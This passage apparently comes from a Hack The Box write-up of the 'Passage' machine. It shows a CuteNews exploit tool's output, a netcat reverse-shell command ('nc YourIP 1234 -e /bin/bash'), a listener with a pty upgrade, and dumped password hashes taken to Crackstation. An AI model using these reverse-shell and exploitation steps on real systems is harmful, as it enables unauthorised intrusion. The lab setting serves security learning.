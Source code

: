 7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 5at0mf3bU0 and password: 5at0mf3bU0

=======================================================
Sending Payload
=======================================================
signature_key: e308dc5a62da8774eb77a4d151d0d456-5at0mf3bU0
signature_dsi: a90c0a071a7e6ff70eaa3fed9d2487e7
logged in user: 5at0mf3bU0
============================
Dropping to a SHELL
============================

command > nc YourIP 1234 -e /bin/bash
{%endhighlight%}

I use the tool to get a better netcat shell.

{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.206 57806 received!
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@passage:/var/www/html/CuteNews/uploads$ whoami
whoami
www-data
{%endhighlight%}

Next I try to crack the hashed passwords  we got from the tool with [Crackstation](https://crackstation.net). We get a hit.

<img src="/images/pass/crack.png" >
